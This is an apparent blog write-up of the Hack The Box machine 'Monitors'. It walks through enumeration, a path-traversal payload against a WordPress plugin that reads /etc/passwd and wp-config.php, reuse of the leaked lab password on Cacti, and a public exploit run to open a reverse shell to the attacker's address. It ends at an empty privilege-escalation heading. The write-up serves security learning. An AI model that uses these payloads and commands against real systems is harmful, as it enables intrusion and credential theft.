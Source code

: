 ```yaml
---
layout: post
title: Monitors
published: false
---
```


**Monitors is a hard machine from Hack The Box.**

### Enumeration 

The first step for this spooky box is `nmap`:

`nmap -sT -sC -sV -vv -min-rate 4000 -max-retries 1 -p- -oA enum/nmap_allports 10.10.10.238`

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5AeQDHYQGVg8GiNvPYiXYPseampZJusZb2Dbd2d1QIi7a/LGOO9ylbMgjxcve5euzCFBMSX2rVIp8zkUg3CCi7JYLpyQAeP0npjT/fB84dWbzt51Xmfir4qZTpBMf8Lw+ZFxEXv1UkGfejSZ3fjcuZ2hBBeUh63P2qcomVla/eUyR1dOIvJy8K1pl1WSXia6W2fJsBj/uowwe4+aMtWGVlzMNd+Tpp1Z8lg/a2jZTxkdIYvUkx/k0x0xrjsUhGiLgOoAWg4JvKeYoy+v/hhAjh6fB8Kw7jS1t1Si69cPadEQGB8NOMdyDv4EvoG3/8BvLpMgpHKzy1aHsJk9zqyej
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHKAgNKkq5XDcAfsuuxZFMPf+iEHjoq9DUmOmg0cCDgpE90GNOZeoaI24IlwlrSdTWTRA9HNJ7DFyIkcHr37Dk=
|   256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBi/L9gWCzbJ6GzFB1PsHZJco24eJW3wmC+a4Ul6fEe6
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web server doesn't like when I try to access it via IP address:

![Pasted image 20210726162829](https://user-images.githubusercontent.com/60187707/138783257-adf4b3ca-d451-4410-9339-deae35c55885.png)

So I add `monitors.htb` to my `/etc/hosts` file to access it that way and I get a home page:

![Pasted image 20210726163820](https://user-images.githubusercontent.com/60187707/138783971-bf6f4aa5-a5a7-483d-9c9a-5e34f6de5a91.png)

It's a Wordpress site. Not much to be found clicking around, but I'll start a `wpscan` in the background and see if it will turn up any actionable information.

`wpscan --url http://monitors.htb -e -o wpscan.txt`

Found an [RFI vulnerability](https://www.exploit-db.com/exploits/44544) in a plugin called Spritz. That's certainly promising. As a proof of concept, I'll pull see if I can get it to show me `/etc/passwd` by accessing http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd.

![Pasted image 20210726164413](https://user-images.githubusercontent.com/60187707/138784416-1c1d9270-ecb6-4406-963c-2c652bb2889e.png)

Now that I know I can retrieve system files, I need to find files that might have sensitive info. To do that, I can use a fuzzer like `wfuzz` to run wordlists of system file paths and find them automatically.

`wfuzz -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../..FUZZ`

After running a few different lists through `wfuzz`, eventually I discover `/etc/apache2/sites-enabled/000-default.conf`.

![Pasted image 20210727103601](https://user-images.githubusercontent.com/60187707/138784729-1e46d1c2-a2e9-4303-92d9-9feaf947233d.png)

This file contains a reference to a virtual host at `cacti-admin.monitors.htb`, which I will add to my `/etc/hosts/file`. I'll get back to that in a minute. I'm gonna keep going through the files `wfuzz` found.

Looking into `/etc/apache2/sites-enabled/monitors.htb.conf` lets me know that the webroot of `monitors.htb` is at `/var/www/wordpress`. With that in mind, I should be able to locate `wp-config`.

`curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../../var/www/wordpress/wp-config.php`
```// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```

As expected, `wp-config` yields some SQL credentials. Those may be useful eventually. Back to Cacti.

![Pasted image 20210727104651](https://user-images.githubusercontent.com/60187707/138785336-a944fdfa-ba17-4a41-98b9-ae1d20b61d86.png)

A login page. How about I try those credentials I just found? `admin:BestAdministrator@2020!` gets me in.

![Pasted image 20210727104818](https://user-images.githubusercontent.com/60187707/138785433-1e727551-6dc3-4d84-a516-ec5697376549.png)

I've never heard of Cacti before. Some quick research tells me a bit about it. A  "monitoring and fault management framework". 

![Pasted image 20210727105044](https://user-images.githubusercontent.com/60187707/138785536-135e3a22-7707-4190-b40f-56cd6b55f105.png)

### Exploitation

Looking around, there's not much data being hosted or monitored by the app and I'm not finding anything too interesting. Maybe `searchsploit` has something for me.

`searchsploit cacti`

![Pasted image 20210727111656](https://user-images.githubusercontent.com/60187707/138785635-ee9816b6-dc69-4295-b407-e174fe3f2e73.png)

This exploit matches the version number of 1.2.12(according to the homepage), so I'll try this one first. With a valid password, I can gain remote command execution on the server. This exploit will send a reverse shell back my way.

`python3 49810.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.22 --lport 443`

![Pasted image 20210727111734](https://user-images.githubusercontent.com/60187707/138785946-c27f6faa-38d6-4b96-b8f3-bd37f46a1fd6.png)

Run the command, and I'm on as `www-data`.

![Pasted image 20210727111756](https://user-images.githubusercontent.com/60187707/138785980-3ad9a34d-960e-4f63-a32a-feabedeefb5f.png)

### Privilege Escalation



